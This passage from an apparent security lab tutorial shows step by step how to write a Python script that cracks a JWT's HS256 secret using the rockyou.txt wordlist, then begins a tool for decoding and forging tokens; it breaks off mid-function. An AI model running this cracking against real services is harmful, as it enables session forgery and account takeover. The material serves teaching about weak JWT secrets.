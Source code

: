 touch weaksecret.py

Open the newly created file using gedit.

gedit weaksecret.py

The first thing the student must do is import the jwt object, which is part of the PyJWT package.

import jwt

Get the value of the token through the user's input.

encoded = input("Enter encoded payload: ")

Secondly, open the rockyou.txt file and read through each of its lines.

with open('rockyou.txt') as secrets:

for secret in secrets:

Attempt to decode the given token with the current word file. If valid, print a success message; otherwise, try with the next word.

try:

payload = jwt.decode(encoded,secret.rstrip(), algorithms=['HS256'])

print('Success! Token decoded with ....[' + secret.rstrip() + ']')

break

Notify the user if the token is in an invalid format or has expired.

except jwt.InvalidTokenError:

print('Invalid Token .... [' + secret.rstrip() + ']')

except jwt.ExpiredSignatureError:

print('Token Expired ....[' + secret.rstrip() + ']')

Lastly, click on the Save button to save the changes made.

Using the secret key found, an attacker can now decode the token and examine its content. To do so, create a new file named jwt_decoder.py.

touch jwt_decoder.py

Open the newly created file using gedit.

gedit jwt_decoder.py

Begin by importing the required jwt and json libraries.

import jwt

import json

Create a method named menu, which will be used to contain all the necessary code.

def menu():

print('1. Decode JWT')

print('2. Encode JWT')
